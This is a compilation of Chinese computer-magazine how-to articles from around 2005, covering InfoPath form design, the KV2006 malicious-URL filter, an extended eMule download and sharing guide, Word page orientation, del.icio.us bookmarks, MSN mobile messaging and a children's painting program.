每一个在企业上班的人，几乎每天都要填写各种表单。销售部门有销售表单，人事部门有员工信息表单，财务部门有各种财务表单等。比如在昨天，小编还看到秋季版光盘的小编小特，拿着光盘去毒流程表单到处找相关领导签字。传统意义上手工填写的表单，非常繁琐并且容易出错，如果改用电子表单，会大大提高工作效率。微软 Office 2003 中新增的 InfoPath 组件，就是这样一款专业的电子表单制作与发布软件。正如软件名称一样，它如同一条信息(Info)通道(Path)，可以帮助我们简化信息收集处理过程，并能对信息资源加以重复利用及共享。

## 实战:借助电子表单，工作效率提升200%

小丽是一家拥有一百多位员工的公司的人事部经理，因业务需要，公司员工经常要办理出差申请。一直以来，人事部都是采取手工填写表单的方式来登记申请的，工作量非常大。直到有一天，小丽发现 Office 2003 中的 InfoPath 可以快速制作电子表单，将它共享后，申请出差的员工只要在自己的电脑上填写好相关信息，提交一下就可以了，工作效率大大提高。下面来看看小丽是如何设计这个 InfoPath 电子表单的(本文实例可从 http://www.newhua.com/cfan/200520/infopath.rar 下载 )。

编者注:实际上，InfoPath 自带有“出差申请”模板，可以直接调用。不过它不一定完全适合各用人单位的实际需求，所以一般总是要做一些修改才行。而且，本例主要目的还是要教会大家使用 InfoPath，所以特意从空白文档开始一步一步创建，这样才能更深入地了解它的工作机制，随心所欲制作出切合自己实际需要的各种表单来。

- 第一步：在设计表单前，首先要明确设计该表单的主要目的是什么，以及应该包含哪些项目，大体上怎样布局等。可以用铅笔在稿纸上画出一个草图，作为表单设计的参考(见图1)。本次实战仅仅是一个示例，所以对项目做了很大简化，你可以根据自己实际需要添加更多项目。



- 第二步：启动 InfoPath 2003，执行“文件→设计表单”菜单命令，再在右侧“设计任务”窗格中点击“新建空白表单”，这时右侧会变成“设计任务”窗格。首先点击任务窗格中的“版式”，展开版式选项。从上面的草图可以看出，本例设计的表单大体上由六个独立的表格组成的，所以在页面中单击“插入版式表格”下面的“一列表格”，再按下一个表格，按下回车键隔开一行，再单击“一列表格”。以同样的方法，在页面中一共添加六个独立的表格。

- 第三步：草图中的第一个表格被分成了两行，第二行又被分成了两列。所以现在就来拆分这个表格：点击一下第一个表格，然后单击右侧窗格内“合并和拆分单元格”中的“横向拆分表格单元格”项将表格分成两行，拖动表格线可随意调整行高。点击一下表格的第二行，然后在“合并和拆分单元格”中单击“纵向拆分表格单元格”，将第二行拆成两列，拖动表格线可以随意调整列宽。就像在 Word 中设置表格一样，可以在表格中输入任意文字，右击表格单元格，选择“边框与底纹”，在打开的对话框中还可以为单元格着上好看的背景色。现在第一个表格，将变成图2所示的样子。



- 第四步：在右侧窗格上方，点击“控件”，下方将展开控件列表。将光标置于提示文字“出差目的”的后面，按回车键换行，然后在右侧“插入控件”中单击“文本框”控件(或直接将它拖到单元格中)，文本框将自动撑满当前单元格。点选插入的文本框，拖动四周的节点可以随意调整它的大小。以同样的方法，可以在提示文字“申请日期：”下面插入一个“日期选取器”控件。现在单击工具栏上的“预览表单”按钮看一下效果，如图3所示，文本框中可以输入任意文字，单击日期选取器控件，则弹出日历窗口，简单的点击便可以方便地设置成任何时间日期。



- 第五步：单击工具栏上的“关闭预览”按钮回到设计表单状态，按照上面的方法继续设置其他的表格。在设计的过程中，可以随时在“版式”和“控件”两种状态中切换。本例最后的表单效果，如图4所示。拆分表格、设置格式、插入控件，这些操作的方法与上面大体相似，就不细说了，下面简单介绍一下插入选项按钮、复选框及下拉列表框控件时的注意事项(删除控件与删除文字的方法相同)：1. 插入选项按钮时，会弹出一个提示框，说明选项按钮必须在同一域中，并且可以根据需要输入选项按钮的数目。单击“确定”插入选项按钮后，可直接修改选项标题文字。2. 插入复选框控件时，可以直接修改它的标题文字。3. 插入下拉列表框控件后，可右击它，选择“下拉列表框 属性”，在打开的属性窗口中，可通过右下角的“添加”、“修改”按钮任意添加下拉列表的项目，比如本例中，时间后面的下拉列表框有“上午”、“中午”、“下午”、“晚上”，宾馆后面的下拉列表框则设置有“三星级”、“四星级”、“五星级”。这些项目可根据实际情况编辑修改。



- 第六步：表单设计好后，先执行“文件→保存”命令保存它，然后再执行“文件→发布”命令，打开发布向导欢迎窗口，单击“下一步”，根据提示选择表单发布位置(见图5)。如果只想在单位内部的局域网内共享，可选择“此计算机或网络上的共享文件夹”项，根据提示将当前表单文件发布到自己或者局域网上可被其他人访问的共享文件夹内，最后单击向导窗口中的“通知用户”按钮可打开 Outlook 写邮件窗口，输入收件人邮件地址，发送即可。



- 第七步：当其他人收到通知邮件后，就可以根据邮件中的地址找到你所设计的表单了，双击打开表单，根据你所设置的选项填写相关内容。填单人保存文件时，将会以 XML 格式保存。只要填单人也将他所填文件保存在共享文件夹内，你就可以随时打开查看了。

## 15月江民 KV2006 过滤恶意网址

网络已成为人们获取信息的重要来源，不清楚不明白的事只要上网一搜就可解决问题。本人就是这样的一个网上“搜”客，可是在畅游网络的同时，不经意间常常中了恶意网站的“埋伏”，不是感染了病毒，就是主页被篡改。除了上网常常中招，在聊天时也时常收到带毒网址，由于是好友所发，有时总让人真假难辨，稍不留意就又染上病毒。不过，使用 KV2006 新增加的恶意网址过滤功能，可以解决这些让人头疼的病毒问题。第一步：打开 KV2006 主界面，选择“工具”里的“设置”项，打开“监控参数”标签，设置好“恶意网站过滤设置”。第二步：如果安全级别调为“高”或“中”，当发现恶意网站想要“出头”时，KV2006 会自动提示用户你正在访问恶意网址。第三步：如果发现了不良网站，还可以把网址添加在“黑名单”中，只要在图1所示界面中点击“设置网址库”按钮，在弹出窗口中点击“添加”按钮，将不良网址加入。这样，无论是上网浏览还是与好友聊天时，只要出现这个恶意网址，KV2006 就会自动将其屏蔽并提醒用户注意防范。

## 与BT并驾齐驱 看电骡(eMule)再战江湖

国内用户大多数都认为BT是最好的P2P下载工具，其实，从全球范围来看，目前电骡才是最受欢迎的P2P工具，用户数量超过BT成为世界第一。相对于BT而言，电骡的优点之一是不挑资料和资料，一般都能正常下载。而BT下载的一般都是最新的当前正热门的一些资料，对一些时过境迁的资料，虽然能找到很多种子，却就是下载不了。不过有些人会觉得电骡难于调校，摇摆不好，还不如BT好用。下面就让我们看看Rocky是如何成为骑“骡”高手的。

## 入门篇

Rocky是通过《暗黑殖民地》这款老游戏认识电骡的。玩腻了网络游戏，Rocky忽然想起《暗黑殖民地》这款曾经让他彻夜不眠的老游戏。Rocky发现，不论是传统的Web游戏站点，还是各大FTP上，都已经找不到这款1997年的游戏了。虽然Rocky在VeryCD这个站点上发现有它的下载链接，但链接旁边却提示：下面是eMule专用的下载链接，必须安装eMule才能点击下载。相信大多数上网淘金的人，都曾遇到过这样的提示。

警告：本文所有实例，仅为演示eMule这款软件的使用方法，大家在下载使用网上的具体资料时，请注意相关版权声明。

小知识 eMule是什么意思 eMule从英文上直接翻译就是电骡，其中“e”为electric的缩写，也就是电子的；“Mule”则为骡的意思，所以合起来就是电骡，发音则为“伊缪”。

- 第一步：如果系统是Windows XP，并开启了系统自带的网络防火墙，启动eMule时会弹出类似图1的“Internet共享配置”窗口，要求更改网络防火墙的连接设置，开放网络端口下载。单击“是”按钮，eMule就会自动在你的“Internet连接防火墙”的高级设置里添加“eMule_TCP_Port”和“eMule_UDP_Port”两个服务，开启它的TCP和UDP连接端口。当你关闭eMule后，这两个服务也将会同时被删除。



## 实战2：精彩电影看不完

和VeryCD相同的eMule资源搜索网站还有很多，也有很多骡坛发布一些资源，在这上面可以找到很多有用的东西。但eMule的搜索却不仅限于此，Rocky发现eMule自己的搜索功能比网站搜索更加有效。Rocky只用了简单的几步，就找到了自己想要的电影。

- 第一步：在eMule的主界面上点击“搜索”按钮进入搜索窗口。
- 第二步：在左侧“名字”中输入要查找的电影名称作为查找的关键字，在“类型”中选择“视频”（其实还有软件、图像、音频等其他类别供选择），将“方法”选择为“全局（服务器）”。设置好搜索条件后，点击“开始”按钮，eMule就连接到服务器上开始搜索了。搜索结果会在右侧列表中显示出来。
- 第三步：在搜索结果中双击想要下载的项目即可开始下载。要想保存搜索的文件信息，可以右击相应项目（可多选），选择“复制ED2K链接到剪贴板”，再在记事本中粘贴保存下来即可。

- 第二步：eMule下载的资料，默认保存在软件安装目录的Incoming子目录中，如果把eMule装在了系统分区，则最好将下载文件目录移到其他分区中，以免下载文件太多时会挤“爆”系统分区。单击主界面上方的“选项”按钮，打开选项对话框，点选左侧“目录”项，再在右侧，通过“浏览”按钮修改下载文件及临时文件的保存目录，确定即可。

- 第三步：启动IE，在地址栏中输入http://www.verycd.com，打开VeryCD网站的首页，在顶端的搜索框中输入“暗黑殖民地”（或者你所要寻找的其他资料的关键字）进行搜索。如果网站上有所需要的东西，搜索页中就会显示搜索到的结果，点击相应链接进入它的下载页面。

- 第四步：点击下载链接，系统自动启动eMule（如果eMule已关闭的话），同时在屏幕的右下角闪现如图2所示的标志，告诉用户已经把任务添加到下载任务中了。有时搜索到的是多个文件链接，选中想要下载的那些文件，再单击“搜索选中的文件”按钮，即可将选中文件全部加载到下载任务中，无须一个一个地点击链接。



- 第五步：eMule自动连接登录服务器，然后开始排队等待下载。在eMule的主界面上点击“传输”按钮，可以看到下载的具体情况。蓝色条表示未下载的部分，灰色条表示已下载的部分，绿色条表示已全部下载完成。另外还会显示下载资料的文件名称、文件大小、已下载大小、下载速度等信息。鼠标右击正在下载的项目，还可以从右键菜单中对该项进行暂停、停止、继续、取消（即删除）、设置下载优先级等操作。

小提示 什么是ED2K？ ED2K如同BT中的种子文件一样，保存了下载文件的一些重要信息。比如下面这样一行ED2K信息： ed2k://|file|E7%BA%A2%E6%A5% BC%E6%BA%A2|A2.0.8.avi|352839680| C0E511F9DD897129B487D14E46D7F47A|/。 可以看出，它以“|”划分成三大块：文件名、文件大小、文件ID。其中，文件ID又叫做hash，它是ED2K链接里面最关键的信息。很多文件即使它们的文件名不一样，但是只要文件ID一致，电骡服务器就会视为同一个文件。有了ED2K链接，就可以直接下载文件了，单击主界面上方的“工具”按钮，选择“直接下载”，在打开的对话框中粘贴上ED2K链接，再单击“下载”就可以了。

老鸟支招： 掌握了eMule的搜索，即使所有的骡子都关闭了，我们的骡子也不会饿着。但在使用eMule的搜索时，与使用搜索引擎一样，关键是如何确定搜索关键字。

1.  使用多个关键字进行精确搜索。注意，如果输入的关键字包括中文，一定要选中下面的“使用Unicode搜索”，这样搜索到的结果会更多。
2.  对于国外的电影，建议尽量使用英文名称。比如美国大片《独立日》，如果用中文“独立日”作为关键字是很难找到的，但如果用其英文名称“Independence Day”，就能找到很多结果。建议大家用中、英文分别搜索，然后择优下载。
3.  搜索结果有时有很多，那么该选择哪个进行下载呢？一般情况下，要选择发布源多的进行下载。搜索结果的第三项是“可用源数/来源”，第四项是“完成来源”。只有可用源数和完成来源多的，下载的速度才会快。因为对于这类P2P软件来说，下载的用户越多，源越多，下载的速度就会越快。相信用过BT的朋友都清楚这个道理。

Rocky发现eMule把下载的所有文件全都放在了同一个目录中，时间一长凌乱不堪，有时甚至自己都分不清谁是谁了。如果能像Flashget那样，把下载的东西自动分类该有多好。通过摸索和骡友们的指点，Rocky发现eMule也能对下载的东西进行分类。Rocky要把下载分为电影、游戏、软件、歌曲等几类，他的做法如下：

- 第一步：在eMule的主界面中点击“传输”按钮，进入下载管理界面。
- 第二步：右击右上角的“全部”标签，选择“新增分类”命令，在“编辑分类属性”对话框中，把“标题”设置为“电影”，把下载文件指定放入“D:\mt800\clianying”这个文件夹中（你可以随意设置成其他文件夹），然后点击OK按钮确定。
- 第三步：重复第二步中的方法，建立游戏、软件、歌曲，以及其它更多的分类，并分别指定下载目录。
- 第四步：把下载的文档指定到“电影”分类中有两种方法：第一种办法是在搜索后，在……

下方点击分类中的“电影”按钮,然后再点击“下载所选文件”,下载后的资料会被保存到指定目录中;第二种方法是在“传输”窗口中,右击正在下载的文档,通过右键菜单“指定到分类→电影”对它进行分类下载。

## 老鸟支招:

eMule也可以用来在朋友之间传递大型文件。Rocky有一个几百兆的资料,想发送给笔者。但通过Email显然是行不通的。Rocky通过eMule成功地把它传递给了笔者。

- 第一步:Rocky把自己的资料带密码压缩,然后将其放入共享文件夹中。
- 第二步:为了防止别人下载,Rocky为这个压缩包取了一个极不常用的名字,它取的名字是“蕊”,没有任何扩展名(其实这个字我也不认识,Rocky说他是用拼音la拼出来的)。
- 第三步:Rocky通过上例中的方法复制了该文件的链接,并通过QQ发给了我。接下来,笔者就可以通过eMule来下载了。

## 实战4:人人为我，我为人人

Rocky自己的收藏也很丰富,所拥有的电影基本上都在D盘下的movie目录中。他也很想把自己的这些东西分享出去。其实,向广大网友分享自己的收藏是非常简单的。

- 第一步:在eMule的主界面中点击“共享文件”按钮,在左侧打开磁盘目录,右击D:\movie目录,在右键菜单中选择“共享此目录”即可。
- 第二步:在左侧可以看到一个“共享的目录”,其中包括前面已经共享出来的D:\movie,选中它,在右侧就会看到该目录中的内容。右击选择“改名”,把它的名字修改得与文件内容相一致。如果是外国电影,建议在目录中加入其英文名称。这样做的目的就是为了便于网友们搜索。
- 第三步:发布链接。即使共享的文件链接不被发布到论坛上,其他网友照样可以在eMule中搜索到。但是发布你的共享链接,其他网友就可免去搜索的过程了。右击共享出来的文件,在右键菜单中选择“显示ED2K链接”命令,会弹出一个窗口显示该文件的eMule链接,把这个链接发布到网上后,其他网友就可以通过这个链接直接下载了。

## 进阶篇

## 实战1:让骡儿少吃草

Rocky发现eMule有一个比较严重的问题,就是占用的系统资源很多,有时甚至会占用100%的CPU资源。这样就不能一面开eMule下载、一面玩游戏了。但通过实验,Rocky发现通过下面的方法可以节省eMule消耗的系统资源。

- 1. 断开KAD网络。KAD对网络的要求比较高,如果是由于网络设备的限制而导致KAD数据包发不出去,那么反映在系统中就是CPU占用率过高。具体做法是在eMule主界面中点击“KAD”按钮,然后点击右侧的“断开连接”按钮。接着在eMule主界面上点击“选项”按钮进入选项窗口,点击左侧的“连接”,在右侧取消“KAD”前的复选框。
- 2. 不要同时下载太多的文件。因为eMule会同时处理大量文件和源,从而导致CPU占用率过高。
- 3. 合理设置eMule,减少资源消耗。具体做法如下：
  - 第一步:在eMule主界面中点击“选项”按钮,打开“选项”窗口。点击“常规”,取消对“显示欢迎窗口”的选择。
  - 第二步:点击“显示”,把“进度条样式”滑动至扁平。然后把“节省CPU和内存的使用量”下面的选项全部选中。
  - 第三步:点击“连接”,取消对“显示额外开销的带宽”项的选择。
  - 第四步:点击“服务器”,将“移除无响应服务器”项设置为“在1次重试后”。
  - 第五步:点击“扩展设置”,把下面的“队列大小”滑动至最左边。

## 实战2:为eMule下载提速

对于下载软件来说,下载速度才是硬道理。在我向朋友推荐eMule的过程中,很多网友在试用之后,很快就都把eMule删除了。他们都说eMule的下载速度太慢。其实,这完全是不了解eMule,没有调教好骡子的原因。要想把骡子调教好,可以从以下几方面入手。

- 1. 不要把下载目录设置在系统分区,应该将它们设置在闲置空间比较大的其他分区中。
- 2. eMule有奖励上传的机制,因此很多用户都愿意把eMule的上传速度设置为网络的上行极限,但却发现随着上传速度的增加,下载速度并没有同时得到提升,反倒变慢了。其实,这是因为不了解网络传送数据的原理才闹出的笑话。在网络中,由接收方控制实际传输速度,接收方在收到发送方发送的数据包后,会反馈给发送方一个信息,告诉对方数据包是否收到,如果收到,对方会继续发送下一个数据,如果告诉对方接收到的数据有错,对方会重新发送;如果发送方长时间没有收到反馈信息,会认为这个数据包丢失,而重新发送一次。因此,如果把所有的上行带宽全部用于上传,就不能及时发送反馈信息,从而导致下载的速度迅速下降。那么,应该把上传速度设置为多大合适呢?根据网友们的经验,正常情况下,eMule的下载速度应是上传速度的4倍,因此,一般可以把上传速度设置为实际下载速度的四分之一至二分之一之间即可。
- 3. 使用eMule,如果同时下载的文档过多,每个文档的实际下载速度就会降低,单个文档的下载周期过长;如果同时下载的文档过少,又会影响整体下载速度。根据网友们的经验,以同时下载不超过20个文档为佳。
- 4. 其他一些能够有效提高下载速度的方法：
  - (1)在前面优化系统资源的实例中,我们禁止了KAD网络。但实际上,KAD是一种没有服务器、通过特殊算法实际网络互联的一种资源共享网络。因此在下载时,除了服务器上的骡友外,还可以通过KAD网络连接到一些其他网友,这样也能提高一些下载速度。
  - (2)长时间下载的、下载东西多的,如果把eMule关闭一下,然后再重新启动登录,这样速度会明显提高。
  - (3)手动设置下载级别,把那些快要完成的或者是自己急需的文档的下载级别强制为高,这样就可以尽快下载完成。具体方法是在传输界面中,右击下载任务,在弹出的菜单中选择“优先级(下载)→高”。
  - (4)点击“共享文件”,右击那些下载了一半的文档,把“优先级(上传)”修改为“发布”。这样能够增加这个文件被下载的机会,在这个文件中的一部分被大量上传的同时,用户就可以获得更快的下载速度。

## 老鸟解惑:

## 为什么我的骡儿戴着限罩

通过几天的使用,Rocky对eMule基本满意。在eMule上,Rocky找到了一些平时很难找到的东西,有些甚至可以被称为古董了。但Rocky发现系统托盘内,自己的电骡图标竟然带着一个限罩,通过网上交流,骑骡高手们提醒Rocky看一下自己是否是LowID。Rocky在eMule主界面上点击“服务器”按钮,在右下角发现自己果然是LowID(见图3)。



理论上来说,HighID要比LowID具有一些优势。在主动下载时,HighID的用户能够连接到同一服务器上所有的用户,也能连接到其他服务器的HighID用户;而LowID用户则只能连接到同一服务器和其他服务器的HighID用户,两个LowID用户之间则无法直接通信,因此文件来源要少一些。在被动上传时,HighID用户能够把自己的资料传递给连接到同一服务器和不同服务器上的所有用户,而LowID用户则只能把资料传送给连接到同一服务器上的HighID用户。从这点来看,LowID的用户下载时所受的限制并不大,只是排队等候下载的时间会比HighID用户更长。此外,LowID用户一面下载,一面要与服务器进行通信,会加大服务器的负担,因此很多国外的服务器不允许LowID用户登录。

但实际上,LowID用户与HighID用户的差别并不太大,尤其是开始下载之后,基本上没有什么区别。因此,如果LowID用户不能通过修改防火墙和路由器的方法获得HighID,也没有必要非得通过其他手段强行获取HighID。典型的一个错误就是通过使用代理服务器的方法把自己变成HighID。这种方法看起来不错,但实际上走不可取的。因为对于eMule来说,下载几乎是海量的,任何一个代理服务器都不会允许其他服务长时间、大规模地通过它进行下载,因此用不了多长时间就会被代理服务器的管理员踢掉。另外,如果很多用户通过同一个代理服务器登录eMule服务器的话,eMule服务器也会把你设置为不受欢迎的用户——拒绝你的连接。因此,通过代理服务器来获取HighID是得不偿失的。通过其他方法解决下载速度要比追究LowID要实惠得多。

有道是公说公有理,婆说婆有理,有些人还是觉得想办法将LowID变成HighID,益处更多。限于篇幅,本文就不介绍其方法了,有兴趣研究的读者,可去看看“向LowID说不!——如何尽可能获取HighID详解”(http://www.pcmik.com/bbs/simple/t3692.html)一贴,其中有非常详细的介绍,可作为参考。

(河北 老周)

## 同一Word文档，页面纵横混排

一般情况下,Word文档页面都是一致的,而且大多是纵向设置。但有时为了一些特殊需要,比如文档中含有列数很多的表格或横向工作流程图时,就需要将其所在的页面单独设置为横向(见图)。这时,Word的特殊功能——分节符就派上用场了。



- 第一步:插入分节符。将光标置于需要插入横向表格或工作流程图页面的上一页末端,然后点击菜单命令“插入→分隔符”,接着在“分节符类型”中选择“下一页”。点击“确定”后,该文档便自动增加一页,光标也定位到了新页页首,此时便可以对新页面进行任意操作了。
- 第二步:设置横向页面。点击菜单命令“文件→页面设置”,在页面设置对话框中将页面方向设置为“横向”,点击“确定”返回,该页面方向就如你所愿地变为横向了。你同样可以在该页中进行页边距、页眉和页脚的任意操作,而不会影响文档其他页面的设置。
- 第三步:恢复纵向设置。如果后续页面需要恢复为纵向,可重复上两步,再把页面设置为“纵向”就可以了。

(重庆 石晓红)

### 附录：HighID与LowID对比

| 对比项 | HighID | LowID |
| :--- | :--- | :--- |
| **主动下载时的连接能力** | 能连接到同一服务器上的所有用户及其他服务器的HighID用户。 | 只能连接到同一服务器和其他服务器的HighID用户，两个LowID用户之间无法直接通信。 |
| **被动上传时的连接能力** | 能向连接到同一服务器及不同服务器的所有用户上传。 | 只能向连接到同一服务器的HighID用户上传。 |
| **下载限制** | 限制较少。 | 文件来源较少，排队等候时间可能更长。 |
| **对服务器的影响** | 影响较小。 | 一面下载一面与服务器通信，会加大服务器负担，部分国外服务器不允许LowID登录。 |
| **实际下载速度差别** | 开始下载后差别不大。 | 开始下载后差别不大。 |
| **获取方式** | 通常需要开放网络端口，正确配置防火墙和路由器。 | 网络端口未开放或处于防火墙/路由器后方时默认获得。 |
| **是否必须追求** | 若无法获得，不必强求，尤其是通过代理服务器等方式可能得不偿失。 | 若无法获得HighID，也可接受，重点应放在优化下载设置上。 |

## 千里网络一线“签” ——妙用“美味书签”

“网络书签”又名“网摘”，起源于美国一家名为del.icio.us的网站，该网站自2003年开始提供一项Social Bookmarks(社群书签)网络服务。正如del.icio.us主页上所写的，网络书签的精华就是：Discover(发现，上网冲浪时找到好的网站或网页)，Keep(保存，将网址保存下来方便以后随时随地访问)，Share(共享，好东东岂能独享，一定要共享给其他好友)。

- 实例 1:亲手调制“美味书签”

由于delicious的英文意思为美味，所以大家称del.icio.us为“美味书签”。其最大特点就是干净，没有形形色色的广告，操作方法也简单，虽然是英文网站，但看了下面介绍，不会英文的读者照样也能运用自如。相比之下，国内大多数的网摘网站上，充斥着大量的广告让人实在受不了，而且还有许多色情、垃圾链接，感觉很不好。

第一步：访问http://del.icio.us/，单击页面右侧register(注册)链接进入注册页面，按提示输入用户名(username)、密码(password)及E-mail地址、验证码等信息，最后点击register按钮完成注册。不一会就能收到del.icio.us发来的认证邮件，单击其中的链接激活即可。

第二步：注册完成再登录http://del.icio.us/，会发现页面右上角多出好几项功能，单击post(发布)链接，在打开页面的url中输入要收藏的网址，点击save(保存)按钮进入下一个页面，在这里必须要填写网站标题描述(description)，其他如extended(扩展，可以填写该网站内容的摘要信息)和tags(标签，相当于以关键字分类)都是可选项，可填可不填。再次单击save按钮，就能把它保存到自己的网络书签(bookmarks)中了，同时会打开该网站验证一下。

第三步：为了便于收藏网址，可以将post功能加到IE的工具条上，浏览到好的网站时只要单击一下按钮即可收藏：在图1所示界面中，单击“bookmarklet buttons”链接，在打开的页面中，分别右击“remember this”、“my del.icio.us”、“bookmarks from others”方框，在右键菜单中选择“添加到收藏夹”；如果弹出安全警报窗口，直接单击“是”按钮确认；在接下来弹出的添加收藏夹窗口中，选择“链接”，再单击“确定”返回；在IE工具栏空白处右击，在弹出菜单中点击勾选“链接”项，就会发现工具栏上多了“remember this”等三个按钮，随时点击其中的“remember this”按钮即可收藏正在浏览的网页了。本方法也适用于FireFox、Opera以及基于IE内核的浏览器，如傲游(Maxthon)。

第四步：若想通过网络书签访问自己收藏的网站，可随时登录del.icio.us，再单击右上角的bookmarks(书签)链接，即可看到自己的收藏了，点击想要访问的网站书签就可以打开该网站。更快捷的访问网络书签的方法是：直接点击在第三步中所添加的“my del.icio.us”按钮，即可登录到你自己的书签收藏页面。

### 小提示

中文网摘也疯狂

现在，国内提供网摘服务的网站渐渐多了起来，在Google或百度中，以“网络书签”或“网摘”为关键词，很容易找出一堆这类的网站。使用方法与本例相似：首先注册一个用户，然后安装相应插件，以后只要单击相应工具按钮(或通过右键命令)即可随时采集网页了。

- 实例 2:巧用标签(tag)细分类、找同好

第一步：浏览时发现自己喜欢的网页，单击工具栏链接中的“remember this”按钮打开保存书签页面，在该页面中，网址及标题已经自动填写好了。在extended(扩展)中可以输入该网页的摘要信息，其实只要将原网页中的主要内容复制过来，会省事得多。

第二步：在tags(标签)中输入相应关键字。可以输入多个关键字，但关键字间要用空格隔开(注意看提示，有些网摘网站可能会提示用逗号分隔)。如果先前已经创建过一些标签，它们会在下面的your tags(你的标签)中排列出来，其中若有已合适的标签分类，可直接点击该标签，它会自动加到tags框中。最后，单击save按钮即可将其保存到网络书签中。

第三步：单击工具栏上的“my del.icio.us”按钮进入我们的网络书签页面，在右侧tags列表中点击相应标签，即可跳转到该分类下。如果本类中的收藏也出现在其他标签分类中，则右侧页面还会显示related tags(相关标签)列表。每个分类前面的数字，表示该类中的收藏数目。

第四步：在related tags列表中，有一项“XX from all users”(来自所有用户的XX标签类)，这里的XX表示具体的标签名，本例中为：“数码”。单击“数码”，就可以轻松找到所有同样也使用了“数码”为标签的其他用户的收藏了。与你有相同爱好的人的收藏，对你来说一定也是非常有价值的链接。怎么样，够强大吧。

### 小提示

单击网络书签右侧的edit，可以重新编辑该书签的信息(包括tags关键字)，单击delete则删除该书签。更有意思的是，单击“and xx other people”链接，你还可以知道都有哪些人也同样收藏了该网站(注意：这里指同一网站，而不是像上面说的那个同一标签)。点击收藏者姓名链接，还可以进入其他人的书签主页查看他们的私人收藏。

- 实例 3:好东东要与好朋友分享

在上网冲浪时发现了一个好网站，如何与好朋友一同分享呢？通过网摘发送功能，可以将其“特快专递”给好友(当然，好友也必须是del.icio.us用户)。

单击工具栏链接中的“remember this”按钮保存当前网址，保存时，注意在tags框中输入这样一种形式的标签：for:username。这里的username，表示要发送消息的那个好友的用户名。

好友只要访问：http://del.icio.us/for/，就能看到你给他的网摘留言了。当然，也可以访问这个网址从而收取其他好友发给你的网摘留言。另外，在这个网页下面，还有一个RSS图标，点击它订阅，就不用每天去查阅留言了，直接通过RSS阅读就能监察到。

### 小提示

把网络书签加到个人主页上

如果将自己的网络书签加到个人主页上，只要经常上网收集资料，你个人主页上的书签就会自动随之更新，是不是很酷，而且还会让访问者觉得你在时时更新主页。因为涉及不少的JavaScript代码，限于篇幅，本文就不详细介绍了，大家可去http://del.icio.us/doc/feeds/js/，那里有具体的介绍，而且还有示例。

(到此一游)

## 姗姗来迟的“花蝴蝶”会领舞中国吗？

下班了，Sun想约女朋友小薇一起看电影，但小薇的MSN已经下线了，怎么办？Sun忽然眼前一亮，小薇的MSN图标是金黄色的，原来她已经申请了MSN移动服务，那就好办啦！就像平常聊天一样，Sun在MSN上给小薇发了一条消息。正在地铁里的小薇很快收到了MSN留言，马上用手机短信回复到Sun的MSN上：好的，地铁站门口见……

那么，怎么才能用上微软“蝶舞中国”计划中的MSN移动服务呢，下面请跟我来。

### 1.注册激活很轻松

关闭MSN并登录到“MSN移动服务”网站(http://mobile.msn.com.cn/information.asp)，单击“立即进入”按钮，在跳转到的“欢迎使用MSN移动服务”页面中再单击“立即加入”按钮。在随后显示的MSN登录页面中，输入MSN账号及密码登录(见图1)，接下来在阅读完“MSN用户注册协议书”及费用等说明后选择下面“我阅读了并同意此协议”项，并单击“确定”按钮继续操作。

接着输入绑定的手机号码，两次输入相同的手机号码，单击“确定”按钮即可进行手机短信激活服务。现在通过手机短信的形式，发送“MSND”到“8168”即可激活MSN移动服务了。片刻，手机上会收到相关激活成功的短信。

### 2.成功检测很方便

这时再登录MSN，在弹出的“您愿意您的联系人向您的移动设备发送即时消息吗？”的提示框中选择“是”。现在，当你离线时，你MSN绿色的“小人”在其他人的MSN列表中就变成金色的了。

通过测试发现，短信发送与接收几乎没有延迟，不过，接收时手机上会出现提示，后面还有相关的MSN账号。还提示“回复A允许回复，回复D拒绝回复”，当然是回复A了，之后，才会真正收到可回复的短信，这时按照正常回复即可。当然，用户通过手机回复的消息一样能回复到MSN上，不过这个是正常收费的，所说的10元包月是指在MSN中发送出去的短信。

### 小提示

回复确认操作可能是怕有人通过短消息进行诈骗或者其他活动，所以还是先让用户自己确认一下为好。不过，对于发送D是否收费，笔者还没有来得及验证，如果不想回复，直接删除信息即可。

### 3.MSN好友手机显

既然MSN上的好友能在我离线时给我的手机发短信，那么能不能通过手机给MSN在线好友发短信呢？当然可以，首先通过短信形式发送CL到816888003，然后手机将收到联系人显示列表。只要回复“联系人前面的编号 + 发送消息”即可给当前联系人发送消息。如果当前联系人状态是“离开”或其他无法回复的状态，那就只能通过回复“M”来查看其他联系人了。不过大家千万不要无穷无尽地发送“M”，否则，你的MONEY也将如滔滔江水般流个不停。

### 4.任意(移动)手机好友随便添

首先登录MSN最新的7.5版本，单击好友列表顶端的“添加联系人”按钮，调出“添加联系人”窗口。选中“根据移动电话号码创建新的联系人”单选框，单击“下一步”按钮进行填写电话步骤，在接下来的窗口中，填入联系人姓名、联系电话后单击“下一步”即可完成添加(见图2)。即刻在好友列表的最上端会显示一个黄色小人，双击该手机好友，就能给他发送手机短信了。当然，对方的回复也一样方便快捷。

### 小提示

以上内容只是笔者的注册使用过程，仅供参考，大家在注册使用这项服务时，一定要仔细阅读微软网站上的提示说明。截稿时为止，MSN移动服务暂时只可以“服务”于中国移动用户，至于联通用户、小灵通用户还无福享用。而且，仍然有部分地区没有开通此服务：广西，黑龙江，陕西，云南。

(北京 小刀)

## 信手涂鸦，画出心中的童话世界

我们都曾经从孩提时代走来，当我们依然偎在父母的怀里倾听着童话故事的时候，幼小的心灵中就会浮现出那童话世界的场景，并且想通过自己手中的画笔将那美丽的景象描绘下来。今天笔者就给大家推荐一款专为儿童设计的软件——Creative Painter，它不像Photoshop、CorelDRAW等大型绘图软件那样需要复杂的操作，完全图标化的界面形象生动，小孩子只要拖拖画画，就可以将心目中的童话世界描绘出来。

Creative Painter小档案
软件版本:3.3
软件大小:14MB
软件性质:共享软件
适用平台:Win9x/ME/2000/XP/
下载地址:http://www.tucows.com/preview/389218

如图1所示，是一幅非常漂亮的童话世界的画面。大家也许会问，这么复杂的场景一定需要很长的时间才能够完成吧？其实不然，通过Creative Painter，几步就可以完成。

- 第一步：信手涂鸦

安装后启动Creative Painter，如果是未注册软件，会弹出要求注册的窗口，单击Later按钮先试用几天再说。播放一段好看的片头后，进入软件主界面。如图2所示，正中间是画板，是用来绘画的地方。左下方是调色板，通过鼠标点击可以选择不同的颜色，拖动调色板下面的铅笔头状滑钮，可以调节画笔的线条粗细。右下方的工具箱中设置有毛笔、铅笔、油笔、喷枪等绘画工具，都是很形象的图标，一看就知道是做什么用的。选中一种工具后，在画板右侧会显示该工具的选项面板。小朋友在这里尽可以充分发挥他们的想像力，在画板上信手涂鸦，练习各种工具的使用，画出心目中喜欢的图画来。
